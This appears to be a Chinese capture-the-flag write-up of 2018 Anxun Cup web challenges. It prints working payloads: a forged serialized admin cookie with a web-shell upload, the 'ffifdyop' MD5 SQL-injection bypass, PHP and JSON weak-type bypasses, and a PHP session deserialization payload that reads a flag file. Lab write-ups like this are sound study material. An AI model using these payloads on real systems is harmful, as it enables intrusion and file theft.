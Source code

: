 以游客账号登录进去，然后序列化`sign`对象伪造`admin cookie`，payload cookie为`a:3:{s:2:"id";s:1:"1";s:4:"name";s:5:"admin";s:4:"sign";s:32:"6c5de1b510e8bdd0bc40eff99dcd03f8";}`，获得管理员权限后上传文件，简单绕过后上传成功，菜刀连接

***

## 2018安洵杯

### 智利-签到题

群论里的求幺元，反正幺元 == random.choice(['a', 'b', 'c', 'd'])，挨个md5提交


### 格陵兰-Web1-无限手套

进去提示`Parameter NOHO:The Number Of Higher Organisms`，传入`NOHO`参数，数组绕过，`?NOHO[]=1`，后 见到一个登录框

灭霸，请记好你的password，`post`值后回显SQL语句`<!--SELECT master FROM secret WHERE password = binary '�u���1Ù�iw&a'-->`，显而易见是password的`md5`转`hex`字符串，所以构造一个`md5`值中带`'or'`的，即可绕过

payload: `ffifdyop`


### 德国-方舟计划

几乎和安恒国赛黑市那题一样，当时看到了前端代码但竟然忘了`JS`弱类型比较。这里传七个数字去后端，然后与随机生成的七个数字比较，相同则加金币，`{"action":"buy","numbers":"1234567"}`，因为`Json`是`JS`的数据类型，所以直接嵌入数组（字符串也是数组），`{"action":"buy","numbers":[true,true,true,true,true,true,true]}`，弱类型绕过很快就能买Flag了，接着Flag需要解一到`RSA`，知p, q, e, 求d，写脚本得到Flag


### 波士尼亚与赫塞哥维纳-Double-S

这一题是`Jarvis OJ`上的原题，叫`PHPinfo`，是关于`Session`上传文件的，我讨厌`PHP`，所以关于它语法的题一律不深究，具体步骤见别人写的[WriteUP](https://blog.csdn.net/wy_97/article/details/78430690)，最终payload:

```php
filename="|O:4:\"Anti\":1:{s:4:\"info\";s:36:\"print_r(scandir(dirname(__FILE__)));\";}"

Array
(
    [0] => .
    [1] => ..
    [2] => .user.ini
    [3] => 1.txt
    [4] => 404.html
    [5] => f1ag_i3_h3re
    [6] => gan.php
    [7] => gan1.php
    [8] => gansss.php
    [9] => index.html
    [10] => session.php
    [11] => www.zip
)

filename="|O:4:\"Anti\":1:{s:4:\"info\";s:65:\"print_r(file_get_contents(\"/home/wwwroot/default/f1ag_i3_h3re\"));\";}"
```
